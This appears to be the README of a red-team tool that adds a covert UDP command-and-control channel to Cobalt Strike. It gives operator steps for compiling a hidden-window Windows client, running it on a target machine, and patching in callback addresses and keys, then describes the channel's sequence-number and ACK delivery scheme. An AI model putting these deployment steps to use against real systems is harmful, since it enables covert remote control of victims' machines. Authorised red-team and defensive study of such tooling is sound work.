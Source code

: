 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and PyCryptodome

> pip3 install pycryptodome

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Timeout] [Retries] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client. (128 bit is 16 characters)
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x64 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

Install MinGW

>sudo apt install mingw-w64

Once you have the MinGW compiler installed, you may compile the client.c code with the following command (may need full paths to .c files):

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static -mwindows

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static -mwindows

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [Retries] -g [Key]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The packet max size is defined in the code. It is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

The timeout is defined by the operator. It is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- If the server goes down, due to trying to maintain reliability through packet drop, the client will continue sending packet retransmissions to the dead IP address until the retries counter is hit.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be added as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea is to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Roll over the sequence number once it reaches its max.
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
